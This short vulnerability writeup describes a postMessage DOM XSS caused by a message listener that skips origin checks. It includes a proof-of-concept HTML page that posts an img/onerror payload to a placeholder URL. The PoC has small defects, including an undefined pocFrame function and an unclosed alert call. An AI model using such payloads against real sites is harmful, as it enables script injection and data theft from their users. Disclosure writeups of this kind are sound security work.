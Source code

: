 # Post message xss
specifically in the event listener of postMessage requests that do not check the origin before accessing data. As a result, an attacker can exploit this vulnerability by sending malicious data to your application from a null (sandboxed iframe) and pretending that it came from a trusted source. This could lead to a number of security risks such as data theft or other malicious activities.

# Proof of Concept (PoC)
```
<!doctype html>
<html>
    <head>
        <!-- DOM XSS PoC - generated by DOM Invader part of Burp Suite -->
        <meta charset="UTF-8" />
        <title>Postmessage PoC</title>
        <script>
            function pocLink() {
                var ref  = window.open('https://url');
               ref.postMessage("<img src=x onerror=alert('pwnwed'>","https://url");
                }
               
           
         
        </script>
    </head>
    <body>
        <a href="#" onclick="pocLink();">PoC link</a>          
        <iframe src="https://url" onload="pocFrame(this.contentWindow)"></iframe>                    
    </body>
</html>
```
